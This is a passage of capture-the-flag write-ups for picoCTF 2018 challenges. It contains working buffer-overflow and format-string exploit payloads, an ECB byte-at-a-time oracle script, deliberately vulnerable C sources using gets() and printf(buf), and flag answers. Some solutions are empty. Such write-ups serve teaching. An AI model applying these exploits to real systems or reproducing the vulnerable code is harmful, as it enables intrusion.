So we write garbage up to `j` and end at `t`. positions `l`-`o` are where it will return to, and positions `p`-`s` need deadbeef/deadcode.

```
python -c "print('a' * 112 + '\xcb\x85\x04\x08\xef\xbe\xad\xde\xde\xc0\xad\xde')"  > ~/ffff
$ gdb vuln
...
(gdb) run < ~/ffff
Starting program: /problems/buffer-overflow-2_2_46efeb3c5734b3787811f1d377efbefa/vuln < ~/ffff
Please enter your string:
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaﾭ
Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.
[Inferior 1 (process 1486044) exited normally]
```

So that works perfectly (in that it complains of a missing flag, it successfully entered the `win` function.) However running the same thing outside of gdb, fails:

```
$ ./vuln < ~/ffff
Please enter your string:
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaﾭ
Segmentation fault
```

Which is quite unexpected.


## Cryptography 250: caesar cipher 2

**Challenge**

Can you help us decrypt [this message](writeupfiles/ciphertext2)? We believe it is a form of a caesar cipher.

You can find the ciphertext in `/problems/caesar-cipher-2_3_4a1aa2a4d0f79a1f8e9a29319250740a` on the shell server.

```
4-'3evh?'c)7%t#e-r,g6u#.9uv#%tg2v#7g'w6gA
```


**Solution**

Looks like caesar shift cipher but with a larger alphabet. Since we know the flag
format, we can deduce the shift amount (e.g. `4` should become `p`). The most likely candidate is the ascii table

```python
import string

alphabet=""

for i in range(32,126):
    alphabet += chr(i)

print(alphabet)

shift=alphabet.find('p')-alphabet.find('4')
print(shift)

ct="4-'3evh?'c)7%t#e-r,g6u#.9uv#%tg2v#7g'w6gA"

pt=''
for c in ct:
    pt += alphabet[ (alphabet.find(c)+shift)%len(alphabet) ]

print(pt)

```
And this outputs the flag for us

**Flag**
```
picoCTF{cAesaR_CiPhErS_juST_aREnT_sEcUrE}
```

## Binary Exploitation 250: got-2-learn-libc

**Challenge**

This [program](writeupfiles/vuln3) gives you the address of some system calls. Can you get a shell?

You can find the program in `/problems/got-2-learn-libc_2_2d4a9f3ed6bf71e90e938f1e020fb8ee` on the shell server.

[Source](writeupfiles)

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

char useful_string[16] = "/bin/sh"; /* Maybe this can be used to spawn a shell? */


void vuln(){
  char buf[BUFSIZE];
  puts("Enter a string:");
  gets(buf);
  puts(buf);
  puts("Thanks! Exiting now...");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  puts("Here are some useful addresses:\n");

  printf("puts: %p\n", puts);
  printf("fflush %p\n", fflush);
  printf("read: %p\n", read);
  printf("write: %p\n", write);
  printf("useful_string: %p\n", useful_string);

  printf("\n");

  vuln();


  return 0;
}
```

**Solution**

**Flag**
```

```


## Cryptography 250: rsa-madlibs

**Challenge**

We ran into some weird puzzles we think may mean something, can you help me solve one?

Connect with `nc 2018shell1.picoctf.com 40440`

**Solution**

We connect and are asked to do some RSA calculations. We get some parameters, and have to calculate a target RSA parameter, or answer that it is not feasible to do so. The complete exchange went as follows:


```
Hello, Welcome to RSA Madlibs
Keeping young children entertained, since, well, nev3r
Tell us how to fill in the blanks, or if it's even possible to do so
Everything, input and output, is decimal, not hex
#### NEW MADLIB ####
q : 93187
p : 94603
##### WE'RE GONNA NEED THE FOLLOWING ####
n
IS THIS POSSIBLE and FEASIBLE? (Y/N):y
#### TIME TO FILL IN THE MADLIB! ###
n: 8815769761
YAHHH! That one was a great madlib!!!


#### NEW MADLIB ####
p : 81203
n : 6315400919
##### WE'RE GONNA NEED THE FOLLOWING ####
q
IS THIS POSSIBLE and FEASIBLE? (Y/N):y
#### TIME TO FILL IN THE MADLIB! ###
q: 77773
YAHHH! That one was a great madlib!!!


#### NEW MADLIB ####
e : 3
n : 12738162802910546503821920886905393316386362759567480839428456525224226445173031635306683726182522494910808518920409019414034814409330094245825749680913204566832337704700165993198897029795786969124232138869784626202501366135975223827287812326250577148625360887698930625504334325804587329905617936581116392784684334664204309771430814449606147221349888320403451637882447709796221706470239625292297988766493746209684880843111138170600039888112404411310974758532603998608057008811836384597579147244737606088756299939654265086899096359070667266167754944587948695842171915048619846282873769413489072243477764350071787327913
##### WE'RE GONNA NEED THE FOLLOWING ####
q
p
IS THIS POSSIBLE and FEASIBLE? (Y/N):n
YAHHH! That one was a great madlib!!!


#### NEW MADLIB ####
q : 78203
p : 79999
##### WE'RE GONNA NEED THE FOLLOWING ####
totient(n)
IS THIS POSSIBLE and FEASIBLE? (Y/N):y
#### TIME TO FILL IN THE MADLIB! ###
totient(n): 6256003596
YAHHH! That one was a great madlib!!!


#### NEW MADLIB ####
plaintext : 1815907181716474805136452061793917684000871911998851410864797078911161933431337632774829806207517001958179617856720738101327521552576351369691667910371502971480153619360010341709624631317220940851114914911751279825748
e : 3
n : 29129463609326322559521123136222078780585451208149138547799121083622333250646678767769126248182207478527881025116332742616201890576280859777513414460842754045651093593251726785499360828237897586278068419875517543013545369871704159718105354690802726645710699029936754265654381929650494383622583174075805797766685192325859982797796060391271817578087472948205626257717479858369754502615173773514087437504532994142632207906501079835037052797306690891600559321673928943158514646572885986881016569647357891598545880304236145548059520898133142087545369179876065657214225826997676844000054327141666320553082128424707948750331
##### WE'RE GONNA NEED THE FOLLOWING ####
ciphertext
IS THIS POSSIBLE and FEASIBLE? (Y/N):Y
#### TIME TO FILL IN THE MADLIB! ###
ciphertext: 26722917505435451150596710555980625220524134812001687080485341361511207096550823814926607028717403343344600191255790864873639087129323153797404989216681535785492257030896045464472300400447688001563694767148451912130180323038978568872458130612657140514751874493071944456290959151981399532582347021031424096175747508579453024891862161356081561032045394147561900547733602483979861042957169820579569242714893461713308057915755735700329990893197650028440038700231719057433874201113850357283873424698585951160069976869223244147124759020366717935504226979456299659682165757462057188430539271285705680101066120475874786208053
YAHHH! That one was a great madlib!!!

#### NEW MADLIB ####
ciphertext : 10752401345107934853994451075614360420392571726218503379932844501179276054552894499371978339254216342863717232351225262
456711111066616866474311520379151098570994236660962643699588778167465127223356630381497967750710116858773937569900973458898548236970
2634499544891509228440194615376339573685285125730286623323
e : 3
n : 27566996291508213932419371385141522859343226560050921196294761870500846140132385080994630946107675330189606021165260590147068785
820203600882092467797813519434652632126061353583124063944373336654246386074125394368479677295167494332556053947231141336142392086767
742035970752738056297057898704112912616565299451359791548536846025854378347423520104947907334451056339439706623069503088916316369813
499705073573777577169392401411708920615574908593784282546154486446779246790294398198854547069593987224578333683144886242572837465834
139561122101527973799583927411936200068176539747586449939559180772690007261562703222558103359
##### WE'RE GONNA NEED THE FOLLOWING ####
plaintext
IS THIS POSSIBLE and FEASIBLE? (Y/N):N
YAHHH! That one was a great madlib!!!

#### NEW MADLIB ####
q : 92092076805892533739724722602668675840671093008520241548191914215399824020372076186460768206814914423802230398410980218741906960527104568970225804374404612617736579286959865287226538692911376507934256844456333236362669879347073756238894784951597211105734179388300051579994253565459304743059533646753003894559
p : 97846775312392801037224396977012615848433199640105786119757047098757998273009741128821931277074555731813289423891389911801250326299324018557072727051765547115514791337578758859803890173153277252326496062476389498019821358465433398338364421624871010292162533041884897182597065662521825095949253625730631876637
e : 65537
##### WE'RE GONNA NEED THE FOLLOWING ####
d
IS THIS POSSIBLE and FEASIBLE? (Y/N): Y
#### TIME TO FILL IN THE MADLIB! ###
d: 1405046269503207469140791548403639533127416416214210694972085079171787580463776820425965898174272870486015739516125786182821637006600742140682552321645503743280670839819078749092730110549881891271317396450158021688253989767145578723458252769465545504142139663476747479225923933192421405464414574786272963741656223941750084051228611576708609346787101088759062724389874160693008783334605903142528824559223515203978707969795087506678894006628296743079886244349469131831225757926844843554897638786146036869572653204735650843186722732736888918789379054050122205253165705085538743651258400390580971043144644984654914856729

YAHHH! That one was a great madlib!!!


#### NEW MADLIB ####
p : 153143042272527868798412612417204434156935146874282990942386694020462861918068684561281763577034706600608387699148071015194725533394126069826857182428660427818277378724977554365910231524827258160904493774748749088477328204812171935987088715261127321911849092207070653272176072509933245978935455542420691737433
ciphertext :
5315135537182226856134532843338546481354659841681272223692273789930341302489189252395544040217036010025492161730920090820789264419456405499853943420863961834511620167348215712366219204972198527365477630427263725627920265227612760416678425823843187407675643742844283110052895704455415142735463486037912801307917634230788549540802477270278755052542590491708620341889689884020271200598596327430790861785538107067664504281508756159305916221674161062222221931717498244841323828452111473034440447694160917521358885718436832783214139059379459896493819067235346238816701274408935126796953373891399167497687512301978797146598
e : 65537
n : 23952937352643527451379227516428377705004894508566304313177880191662177061878993798938496818120987817049538365206671401938265663712351239785237507341311858383628932183083145614696585411921662992078376103990806989257289472590902167457302888198293135333083734504191910953238278860923153746261500759411620299864395158783509535039259714359526738924736952759753503357614939203434092075676169179112452620687731670534906069845965633455748606649062394293289967059348143206600765820021392608270528856238306849191113241355842396325210132358046616312901337987464473799040762271876389031455051640937681745409057246190498795697239
##### WE'RE GONNA NEED THE FOLLOWING ####
plaintext
IS THIS POSSIBLE and FEASIBLE? (Y/N): Y
#### TIME TO FILL IN THE MADLIB! ###
plaintext: 240109877286251840533272915662757983981706320845661471802585807564915966910384301849411666983334013


plaintext: YAHHH! That one was a great madlib!!!


If you convert the last plaintext to a hex number, then ascii, you'll find what you're searching for ;)

```

so we convert the last answer to the flag:

```
>>> flag = 240109877286251840533272915662757983981706320845661471802585807564915966910384301849411666983334013
>>> hex(flag)
'0x7069636f4354467b64305f755f6b6e30775f7468335f7740795f325f5253405f35643338336531307d'
>>> bytes.fromhex(hex(flag)[2:]).decode('utf-8')
'picoCTF{d0_u_kn0w_th3_w@y_2_RS@_5d383e10}'
```

Below is some pseudocode of how parameters may be calculated given a set of
other ones

```python
# pseudocode to show how the rsa calculations were done
import gmpy2

N = p*q
p = N // q
q = N //p

r = (q-1)*(p-1)

d = gmpy2.divm(1,e,r)
e = gmpy2.divm(1,d,r)

ct = gmpy2.powmod(pt,e,N)
pt = gmpy2.powmod(ct,d,N)
```

all responses can be found in [madlibs_answers.txt](writeupfiles/madlibs_answers.txt) and run with

```
cat madlib_aswers.txt | nc 2018shell1.picoctf.com 40440
```


**Flag**
```
picoCTF{d0_u_kn0w_th3_w@y_2_RS@_5d383e10}
```


## General Skills 275: in out error

**Challenge**

Can you utlize stdin, stdout, and stderr to get the flag from this program?
You can also find it in `/problems/in-out-error_2_c33e2a987fbd0f75e78481b14bfd15f4` on the shell server

**Solution**

log into shell and:

```
$ echo "Please may I have the flag?" | ./in-out-error | grep picoCTF
```

**Flag**
```
picoCTF{p1p1ng_1S_4_7h1ng_b6f5a788}
```


## Web Exploitation 300: Artisinal Handcrafted HTTP 3

**Challenge**

We found a hidden flag server hiding behind a proxy, but the proxy has some... _interesting_ ideas of what qualifies someone to make HTTP requests. Looks like you'll have to do this one by hand.

Try connecting via `nc 2018shell1.picoctf.com 26431`, and use the proxy to send HTTP requests to `flag.local`. We've also recovered a username and a password for you to use on the login page: `realbusinessuser`/`potoooooooo`.

**Solution**


```
GET /
Host: flag.local

HTTP/1.1 200 OK
x-powered-by: Express
content-type: text/html; charset=utf-8
content-length: 321
etag: W/"141-LuTf9ny9p1l454tuA3Un+gDFLWo"
date: Sat, 06 Oct 2018 16:53:46 GMT
connection: close

<snip>
/login
```

So we access login:


```
GET /login
Host: flag.local

HTTP/1.1 200 OK
x-powered-by: Express
content-type: text/html; charset=utf-8
content-length: 498
etag: W/"1f2-UE5AGAqbLVQn1qrfKFRIqanxl9I"
date: Sat, 06 Oct 2018 16:54:08 GMT
connection: close


                <html>
                        <head>
                                <link rel="stylesheet" type="text/css" href="main.css" />
                        </head>
                        <body>
                                <header>
                                        <h1>Real Business Internal Flag Server</h1>
                                        <a href="/login">Login</a>
                                </header>
                                <main>
                                        <h2>Log In</h2>

                                        <form method="POST" action="login">
                                                <input type="text" name="user" placeholder="Username" />
                                                <input type="password" name="pass" placeholder="Password" />
                                                <input type="submit" />
                                        </form>
                                </main>
                        </body>
                </html>
```

So let's post the user/pass to that:

```
POST /login
Host: flag.local
Content-Type: application/x-www-form-urlencoded
Content-Length: 38

user=realbusinessuser&pass=potoooooooo
HTTP/1.1 302 Found
x-powered-by: Express
set-cookie: real_business_token=PHNjcmlwdD5hbGVydCgid2F0Iik8L3NjcmlwdD4%3D; Path=/
location: /
vary: Accept
content-type: text/plain; charset=utf-8
content-length: 23
date: Sat, 06 Oct 2018 16:59:49 GMT
connection: close

Found. Redirecting to /%
```

And let's fetch index with that cookie:

```
GET /
Host: flag.local
Cookie: real_business_token=PHNjcmlwdD5hbGVydCgid2F0Iik8L3NjcmlwdD4%3D

HTTP/1.1 200 OK
x-powered-by: Express
content-type: text/html; charset=utf-8
content-length: 438
etag: W/"1b6-W7vAFWOkYXQgrhkzGj6dgZ9sfsg"
date: Sat, 06 Oct 2018 17:01:15 GMT
connection: close

<snip>
<p>Hello <b>Real Business Employee</b>!  Today's flag is: <code>picoCTF{0nLY_Us3_n0N_GmO_xF3r_pR0tOcol5_72f2}</code>.</p>
```


**Flag**
```
picoCTF{0nLY_Us3_n0N_GmO_xF3r_pR0tOcol5_72f2}
```

## Cryptography 300: SpyFi

**Challenge**
 James Brahm, James Bond's less-franchised cousin, has left his secure communication with HQ running, but we couldn't find a way to steal his agent identification code. Can you? Conect with `nc 2018shell1.picoctf.com 31123`. [Source.](writeupfiles/spy_terminal_no_flag.py)

**Solution**

When we connect, we are asked for our situation report, and are given and encrypted string (different depending on our input)

```bash
$ nc 2018shell1.picoctf.com 31123
Welcome, Agent 006!
Please enter your situation report: bla
4d6276d172d79a9b7da9098f69e9b403024a64082b1f2cdfa32d27d78ca83236e30cf5302c3f000ff2cb7b8a7106351c3fbf30cac64b016bb3fd112a28ed5478da62ea7c24a6c2956c96fbaaa3097dee75e268403189f06f1250226d6d557f9dcbadccc3485faa80ca8c04ff845819b5fb49b0414a48d3cb4993e15d5c9a05a7935360d079133605136cd91c3a85559adf26219527ad17f80a6fece062d71d6f

$ nc 2018shell1.picoctf.com 31123
Welcome, Agent 006!
Please enter your situation report: zzzzzzzzzzzzzzz
4d6276d172d79a9b7da9098f69e9b403024a64082b1f2cdfa32d27d78ca83236e30cf5302c3f000ff2cb7b8a7106351cc71a0b099baa79288b88380b6e1176093062f7a7751b1cd658a5bd1068c1e66da61b6aa76648777223b15da96a1f249e4ea96647c833ab65e5ec4ed409fe3414af4759f13ad15cc038b0084cdd2f7440456b962fdff9ae64e7a083561b1fda1a8e456864e71843a630207321a2728d26d94dd9b0159dce7368382298d639b818
```

Looks like the beginning is always the same.. After some experimentation, 11z's pads the first bit of text nicely to 64 characters, then every other section are 16 character sections.

```
$ python -c 'print("z" * 11 + "a" * 64 + "b" * 64)' | nc 2018shell1.picoctf.com 31123 | sed 's/Please enter your situation report: //g' | fold -w 32
Welcome, Agent 006!
4d6276d172d79a9b7da9098f69e9b403
024a64082b1f2cdfa32d27d78ca83236
e30cf5302c3f000ff2cb7b8a7106351c
c71a0b099baa79288b88380b6e117609
99908ad37adef3fb5a94680c5a64c6ca # aaaaaaaaaaaaaaaa
99908ad37adef3fb5a94680c5a64c6ca
99908ad37adef3fb5a94680c5a64c6ca
99908ad37adef3fb5a94680c5a64c6ca
5e6605d02027026603b6f00863d32bc5 # bbbbbbbbbbbbbbbb
5e6605d02027026603b6f00863d32bc5
5e6605d02027026603b6f00863d32bc5
5e6605d02027026603b6f00863d32bc5
843f702396b187b716fdfd818e0ebff1
20de53dad133d6a28195473711d21861
7577b2866bbc75dcb721fc57c1cc51ad
ad9aa6494e74fdfa8d484b6a0a895ea6
30ad4028ee72122451ffdbdad0e04c37
efc6c5598b5e33fee6d2c043ed8032e7
292a0b28f8fb2f711e633fd63f526f09
```

So obviously prefixed/postfixed with something and we'll need to figure out the contents. Using `$` for newline, we can get this mapping

```
Agent,$Greetings   4d6276d172d79a9b7da9098f69e9b403
. My situation r   024a64082b1f2cdfa32d27d78ca83236
eport is as foll   e30cf5302c3f000ff2cb7b8a7106351c
ows:$zzzzzzzzzzz   c71a0b099baa79288b88380b6e117609
```

And that means the end parts maps:

```
----------------   ================================

$My agent identi   843f702396b187b716fdfd818e0ebff1
fying code is: ?   20de53dad133d6a28195473711d21861
????????????????   7577b2866bbc75dcb721fc57c1cc51ad
????????????????   ad9aa6494e74fdfa8d484b6a0a895ea6
.$Down with the    30ad4028ee72122451ffdbdad0e04c37
Soviets,$006$000   efc6c5598b5e33fee6d2c043ed8032e7
```

Making a total guess about the last line. So let's see if we can find the right
number of 0s to pad with.

Let's at least confirm we're on the right path?

```
$ python -c 'print("z" * 11 + "a" * 64 +  "fying code is: p" +"a" * 64)' | nc 2018shell1.picoctf.com 31123 | sed 's/Please enter your situation report: //g' | fold -w 32
Welcome, Agent 006!
4d6276d172d79a9b7da9098f69e9b403
024a64082b1f2cdfa32d27d78ca83236
e30cf5302c3f000ff2cb7b8a7106351c
c71a0b099baa79288b88380b6e117609
99908ad37adef3fb5a94680c5a64c6ca
99908ad37adef3fb5a94680c5a64c6ca
99908ad37adef3fb5a94680c5a64c6ca
99908ad37adef3fb5a94680c5a64c6ca
20de53dad133d6a28195473711d21861 # fying code is: p
99908ad37adef3fb5a94680c5a64c6ca
99908ad37adef3fb5a94680c5a64c6ca
99908ad37adef3fb5a94680c5a64c6ca
99908ad37adef3fb5a94680c5a64c6ca
843f702396b187b716fdfd818e0ebff1
20de53dad133d6a28195473711d21861 # MATCH!!!!
7577b2866bbc75dcb721fc57c1cc51ad
ad9aa6494e74fdfa8d484b6a0a895ea6
30ad4028ee72122451ffdbdad0e04c37
efc6c5598b5e33fee6d2c043ed8032e7
292a0b28f8fb2f711e633fd63f526f09
```

So now we need to push it around so we can guess the characters in the middle
and check against the hash lower down.

This was semi-automated in


```python
import string
import sys
import time
import socket

for z in range(0, 95, 20):
    nc = Netcat('2018shell1.picoctf.com', 31123)
    nc.read() # Hello
    nc.read() # enter report
    wrap_start = 'z' * 11 + 'a' * 16

    wrap_end = 'a' * (16 + 11)  +'\n'

    # picoCTF{@g3nt6_1$_th3_c00l3$t_3355197}
    inputs = [
        'c00l3$t_3355197' + y
        for y in ['_'] + list(string.printable[z:min(z + 20, 95)])
    ]


    nc.write(wrap_start + ''.join(inputs) + wrap_end)

    resp = nc.read() # output


    def splitn(line, n=32):
        return [line[i:i+n] for i in range(0, len(line), n)]


    # split on the 'a' * 16
    # print('\n'.join(splitn(resp)))

    prefix, queries, postfix = resp.split('99908ad37adef3fb5a94680c5a64c6ca')

    pm = list(splitn(postfix))

    # ignore prefix

    for (q, i) in zip(splitn(queries), inputs):
        print(i, q in pm)
        if q in pm:
            sys.exit()

    time.sleep(1)
```

This would pass 20 'query' strings at a time (part of the string + 1 new
letter), since the script seemed to limit the volume of input it would actually
attempt. This actualy worked surprisingly well. We started with the input string
`ode is: picoCTF` and have it find the `{`, and then just remove the left most
character, decrease the counter for the postfix padding of `a`s, and add the
new letter to the end of the known input string.

**Flag**
```
picoCTF{@g3nt6_1$_th3_c00l3$t_3355197}
```

## Binary Exploitation 300: echooo

**Challenge**

This program prints any input you give it. Can you [leak](writeupfiles/leak) the flag? Connect with `nc 2018shell1.picoctf.com 23397`.

[Source](writeupfiles/echo.c)

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  char buf[64];
  char flag[64];
  char *flag_ptr = flag;

  // Set the gid to the effective gid
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  memset(buf, 0, sizeof(flag));
  memset(buf, 0, sizeof(buf));

  puts("Time to learn about Format Strings!");
  puts("We will evaluate any format string you give us with printf().");
  puts("See if you can get the flag!");

  FILE *file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);

  while(1) {
    printf("> ");
    fgets(buf, sizeof(buf), stdin);
    printf(buf);
  }
  return 0;
}
```

**Solution**

printf function is vulnerable to format string attacks. We can pass it a string lik `%x` or `%p` and read the stack.

since we know that `picoCTF` is `7069636f435446` in hex, we should be able to spot the flag on the stack, let's try it:


```
$ python -c "print('%p'*32)" | nc 2018shell1.picoctf.com 23397
Time to learn about Format Strings!
We will evaluate any format string you give us with printf().
See if you can get the flag!
> 0x400xf779a5a00x80486470xf77d1a740x10xf77a94900xffc1c8a40xffc1c7ac0x4910x89990080x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x2570250x6f6369700x7b4654430x6d526f660x735f74340x6e695274
```

reformatted to make easier to read:

```
0x40
0xf77515a0
0x8048647
0xf7788a74
0x1
xf7760490
0xfff4a3c4
0xfff4a2cc
0x491
0x81aa008
0x70257025   # our own input of %p repeatedly
0x70257025
0x70257025
0x70257025
0x70257025
0x70257025
0x70257025
0x70257025
0x70257025
0x70257025
0x70257025
0x70257025
0x70257025
0x70257025
0x70257025
0xa
0x6f636970  # flag? (little endian)
0x7b465443
0x6d526f66
0x735f7434
0x6e695274
..
```

The bytes around the flag translate to:

```
ocip
{FTC
mRof
s_t4
niRt
```

accounting for little endian this gives us:

```
picoCTF{foRm4t_stRin
```

but end is missing? our buffer isnt big enough to show us the whole flag, so we gotta be smarter about it.

Passing a format string like `%42$p` will return the 42nd item on the stack

```
$ python -c "print(''.join(['%'+str(i)+'\$p' for i in range(27,39)]))" | nc 2018shell1.picoctf.com 23397                    [13-10-18 11:25:04]
Time to learn about Format Strings!
We will evaluate any format string you give us with printf().
See if you can get the flag!
> 0x6f6369700x7b4654430x6d526f660x735f74340x6e6952740x615f73470x445f65520x65476e610x737530720x3435325f0x613834310xa7d65
```

or with a bit of extra formatting:

```
$ python -c "print(''.join(['%'+str(i)+'\$p' for i in range(27,39)]))" | nc 2018shell1.picoctf.com 23397 |head -n 4 | tail -n 1 | sed 's/0x/\n0x/g' | python ../../_resources/code/l2a.py
>
0x6f636970 ocip
0x7b465443 {FTC
0x6d526f66 mRof
0x735f7434 s_t4
0x6e695274 niRt
0x615f7347 a_sG
0x445f6552 D_eR
0x65476e61 eGna
0x73753072 su0r
0x3435325f 452_
0x61383431 a841
0xa7d65
```

the last line tranlslates to `e}` so full flag is:

**Flag**
```
picoCTF{foRm4t_stRinGs_aRe_DanGer0us_254148ae}
```


## General Skills 300: learn gdb

**Challenge**

Using a debugging tool will be extremely useful on your missions. Can you run [this program](writeupfiles/run2) in gdb and find the flag?

You can find the file in `/problems/learn-gdb_2_32e08c18932eb88649e9b97f3020b9f5` on the shell server.

**Solution**

Executing the programme looks like:

```
$ ./run
Decrypting the Flag into global variable 'flag_buf'
.....................................
Finished Reading Flag into global variable 'flag_buf'. Exiting.
```

One of the hints read:

> Try and find a point in the program after the flag has been read into memory to break on

So we disassembled main:

```
(gdb) disas main
Dump of assembler code for function main:
   0x00000000004008c9 <+0>:     push   %rbp
   0x00000000004008ca <+1>:     mov    %rsp,%rbp
   0x00000000004008cd <+4>:     sub    $0x10,%rsp
   0x00000000004008d1 <+8>:     mov    %edi,-0x4(%rbp)
   0x00000000004008d4 <+11>:    mov    %rsi,-0x10(%rbp)
   0x00000000004008d8 <+15>:    mov    0x200af9(%rip),%rax        # 0x6013d8 <stdout@@GLIBC_2.2.5>
   0x00000000004008df <+22>:    mov    $0x0,%ecx
   0x00000000004008e4 <+27>:    mov    $0x2,%edx
   0x00000000004008e9 <+32>:    mov    $0x0,%esi
   0x00000000004008ee <+37>:    mov    %rax,%rdi
   0x00000000004008f1 <+40>:    callq  0x400650 <setvbuf@plt>
   0x00000000004008f6 <+45>:    mov    $0x4009d0,%edi
   0x00000000004008fb <+50>:    callq  0x400600 <puts@plt>
   0x0000000000400900 <+55>:    mov    $0x0,%eax
   0x0000000000400905 <+60>:    callq  0x400786 <decrypt_flag>
   0x000000000040090a <+65>:    mov    $0x400a08,%edi
   0x000000000040090f <+70>:    callq  0x400600 <puts@plt>
   0x0000000000400914 <+75>:    mov    $0x0,%eax
   0x0000000000400919 <+80>:    leaveq
   0x000000000040091a <+81>:    retq
End of assembler dump.
```

And `break *0x000000000040090a`. Stepping once before calling

```
(gdb) x/1s flag_buf
0x2439010:      "picoCTF{gDb_iS_sUp3r_u53fuL_66d5464d}"
```

to see our flag! Magic!


**Flag**
```
picoCTF{gDb_iS_sUp3r_u53fuL_66d5464d}
```


## Web Exploitation 350: Flaskcards

**Challenge**

We found [this fishy website](http://2018shell1.picoctf.com:51878/) for flashcards that we think may be sending secrets. Could you take a look?


**Solution**

**Flag**
```

```

## Forensics 350: core

**Challenge**
This [program](./writeupfiles/print_flag) was about to print the flag when it died. Maybe the flag is still in this [core file](./writeupfiles/core) that it dumped?

Also available at /problems/core_0_28700fe29cea151d6a3350f244f342b2 on the shell server.

**Solution**

```
(master) [hxr@mk:~/Personal/projects/ctf-writeups-galaxians/PicoCTF_2018/writeupfiles]148$ gdb print_flag core
warning: exec file is newer than core file.
[New LWP 59693]
Core was generated by `/opt/hacksports/staging/core_0_4983223896836212/problem_files/print_flag'.
Program terminated with signal SIGTRAP, Trace/breakpoint trap.
#0  print_flag () at ./print_flag.c:90
90      ./print_flag.c: Datei oder Verzeichnis nicht gefunden.
(gdb) disas
Dump of assembler code for function print_flag:
=> 0x080487c1 <+0>:     push   ebp
   0x080487c2 <+1>:     mov    ebp,esp
   0x080487c4 <+3>:     sub    esp,0x18
   0x080487c7 <+6>:     mov    DWORD PTR [ebp-0xc],0x539
   0x080487ce <+13>:    mov    eax,DWORD PTR [ebp-0xc]
   0x080487d1 <+16>:    mov    eax,DWORD PTR [eax*4+0x804a080]
   0x080487d8 <+23>:    sub    esp,0x8
   0x080487db <+26>:    push   eax                               ; arg2: *eax
   0x080487dc <+27>:    push   0x804894c                         ; arg1: (x/s 0x804894c)
   0x080487e1 <+32>:    call   0x8048410 <printf@plt>            ; printf
   0x080487e6 <+37>:    add    esp,0x10
   0x080487e9 <+40>:    nop
   0x080487ea <+41>:    leave
   0x080487eb <+42>:    ret
End of assembler dump.
(gdb) x/s 0x804894c
0x804894c:      "your flag is: picoCTF{%s}\n"
(gdb) x/s *(0x539*4 + 0x804a080)
0x80610f0:      "abb6a3b2603654804ed357322c760510"
```

We work backwards here, it will call printf with two arguments (the two
`push`es before the `call`). Printing out the second `push` we see the format
string. The first push just pushes eax, so whatever is in `eax` is being passed
to the format string.

We cannot print out `eax` because it isn't set yet (and trying to step/continue
causes an immediate crash,) so we need to calculate what value will be in eax.

The relevant lines are:

```
mov    DWORD PTR [ebp-0xc],0x539
mov    eax,DWORD PTR [ebp-0xc]
mov    eax,DWORD PTR [eax*4+0x804a080]
```

Which can be translated as

```
var1 = 0x539
eax = var1
eax = eax * 4 + 0x804a080
```

So whatever value is in the address `0x539 * 4 + 0x804a080` will be the string
that's printed out. We can do this with `x/s *(0x539 * 4 + 0x804a080)`


**Flag**

```
picoCTF{abb6a3b2603654804ed357322c760510}
```

## Binary Exploitation 350: got-shell?

**Challenge**

Can you authenticate to [this service](writeupfiles/auth2) and get the flag?

Connect to it with `nc 2018shell1.picoctf.com 54664`.

[Source](writeupfiles/auth2.c)

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <sys/types.h>

void win() {
  system("/bin/sh");
}

int main(int argc, char **argv) {

  setvbuf(stdout, NULL, _IONBF, 0);

  char buf[256];

  unsigned int address;
  unsigned int value;

  puts("I'll let you write one 4 byte value to memory. Where would you like to write this 4 byte value?");

  scanf("%x", &address);

  sprintf(buf, "Okay, now what value would you like to write to 0x%x", address);
  puts(buf);

  scanf("%x", &value);

  sprintf(buf, "Okay, writing 0x%x to 0x%x", value, address);
  puts(buf);

  *(unsigned int *)address = value;

  puts("Okay, exiting now...\n");
  exit(1);

}
```

**Solution**

**Flag**
```

```


## General Skills 350: roulette

**Challenge**

This Online [Roulette Service](writeupfiles/roulette) is in Beta. Can you find a way to win $1,000,000,000 and get the flag? Source.

Connect with `nc 2018shell1.picoctf.com 48312`

**Solution**

**Flag**
```

```


## Forensics 400: Malware Shops

**Challenge**

There has been some malware detected, can you help with the analysis?



Connect with `nc 2018shell1.picoctf.com 46168`.

More info:

```
You've been given a dataset of about 500 malware binary files that have
been found on your organization's computers. Whenever you find more malware,
you want to be able to tell if you've seen a file like this before.

Binary files are hard to understand. When code is written, there are several
more steps before it becomes software. Some parts of this process are:
i.  Compiling, which turns human-readable source code into assembly code.
    Assembly code is difficult for humans to read, but it closely mimics the most
    basic raw instructions that a computer needs in order to run a program.
ii. Assembling, which turns assembly code into machine code. Machine code is
    impossible for humans to read, but this representation is what a computer
    actually needs to execute.

The malware binary files that were given to you to analyze are all in machine
code, but luckily, you were able to run a program called a disassembler to
turn them back into assembly code.

Assembly code contains *instructions* which tell a computer how to update
its own internal memory, and its progress through reading the assembly code
itself. For instance, the `jmp` instruction means "jump to executing a
different instruction", and the `add` instruction means "add two numbers and
store the result in memory".

Your dataset contains data about all the malware files, including their
file hash, which serves as a name, and the counts of all of the `jmp` and `add`
instructions.

Malware attackers often release many slightly different versions of the same
malware over time. These different versions always have totally different
hashes, but they are likely to have similar numbers of `jmp` and `add`
instructions.
```

**Solution**
```
